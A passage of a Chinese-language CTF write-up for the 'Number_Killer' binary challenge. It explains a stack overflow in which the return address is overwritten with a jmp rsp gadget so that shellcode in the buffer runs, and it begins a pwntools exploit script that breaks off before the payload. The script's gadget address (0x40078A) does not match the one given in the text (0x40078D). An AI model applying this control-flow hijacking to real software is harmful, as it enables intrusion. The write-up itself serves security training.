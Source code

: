 ```assembly
.text:0000000000400789 gift            proc near
.text:0000000000400789 ; __unwind {
.text:0000000000400789                 push    rbp
.text:000000000040078A                 mov     rbp, rsp
.text:000000000040078D                 jmp     rsp
.text:000000000040078D gift            endp
```

能直接利用其中的`gadget: jmp rsp`，将返回地址覆盖为`0x40078D`(gadget的地址)，把程序的控制流劫持到栈中。溢出发生时`rsp`的值正好是`v4`的首地址，因此向`v4`中布置`shellcode`即可。

这题有以下几点要注意：

- 只能输入13个整数，因此shellcode的长度应该小于104字节
- 需要将`shellcode`每8个字节转成一个`int64`，且在`readall()`存在检查，整数的长度不能超过20，因此需要寻找一个合适的`shellcode`，不能用`pwntool`自动生成

### exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './Number_Killer'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget

jrsp = 0x0040078A

```